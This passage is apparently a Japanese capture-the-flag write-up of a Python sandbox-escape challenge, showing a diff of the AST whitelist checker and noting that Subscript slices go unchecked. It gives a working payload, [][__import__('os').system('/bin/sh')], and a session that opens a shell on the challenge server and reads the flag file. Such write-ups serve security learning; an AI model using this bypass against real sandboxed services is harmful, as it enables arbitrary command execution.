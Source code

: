 ```diff
+            'DictComp': ['key', 'value', 'generators'],
+            'GeneratorExp': ['elt', 'generators'],
             'Yield': ['value'],
             'Compare': ['left', 'comparators'],
             'Call': False, # call is not permitted
@@ -67,7 +76,8 @@
             'Name': True,
             'List': ['elts'],
             'Tuple': ['elts'],
-            'Expr': ['value'], # root node
+            'Expr': ['value'], # root node
+            'comprehension': ['target', 'iter', 'ifs'],
         }

         for k, v in attributes.items():
@@ -78,6 +88,7 @@


 if __name__ == '__main__':
+    check_flag1()
     expr = sys.stdin.readline()
     body = ast.parse(expr).body
     if check(body):
```

コメント部分の `Subscript(expr value, slice slice, expr_context ctx)` とコード部分の `'Subscript': ['value'],` を比較すると、`value` のみがチェックされていることが分かります。

`[][__import__('os').system('/bin/sh')]` を投げてみると、シェルを得ることができました。

```
$ nc pwn1.chal.ctf.westerns.tokyo 30002
[][__import__('os').system('/bin/sh')]
ls
flag
flag2
run.sh
sandbox2.py
cat flag2
TWCTF{baby_sandb0x_escape_with_pythons}
```

```
TWCTF{baby_sandb0x_escape_with_pythons}
```